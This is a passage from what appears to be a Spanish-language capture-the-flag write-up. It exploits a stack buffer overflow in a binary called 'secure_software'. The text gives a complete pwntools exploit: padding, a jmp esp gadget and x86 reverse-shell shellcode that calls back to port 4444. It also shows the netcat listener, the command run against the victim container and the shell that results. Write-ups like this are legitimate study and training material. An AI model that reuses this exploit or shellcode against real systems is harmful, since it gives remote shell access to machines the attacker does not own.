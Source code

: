 Modificamos el script para poder incorporar la shellcode:

```bash
#!/usr/bin/env python3

from pwn import *

log.warning(f'Usage: python3 {sys.argv[0]} [ip:port]')
context.binary = 'secure_software'

rop = ROP(context.binary)
eip = p32(rop.jmp_esp.address)

reverse = b"\x31\xc0\x31\xdb\xb0\x66\xb3\x01\x31\xd2\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0\x66\xb3\x03\x68\xac\x11\x00\x01\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x31\xc9\x31\xc0\xb0\x3f\x89\xf3\xcd\x80\xfe\xc1\x66\x83\xf9\x02\x7e\xf0\x31\xc0\x50\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

payload = b"A"*300
payload += eip
payload += reverse

if len(sys.argv) > 1:
    ip, port = sys.argv[1].split(':')
    p = remote(ip, port)
else:
    p = process(context.binary.path)

p.sendlineafter(b'Enter data: ', payload)
p.interactive()
```

Lo probamos en local primero y cuando vemos que funciona lo ejecutamos contra la máquina victima. Nos ponemos a la escucha en nuestra máquina en el puerto 4444, como esta en la shellcode. 

```bash
$ nc -nlvp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

Y ejecutamos el script:

```bash
$ python3 exploit.py 172.17.0.2:20201
```

Obtenemos la shell y hacemos el tratamiento de la tty:

```bash
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:34020.
whoami
securedev
```
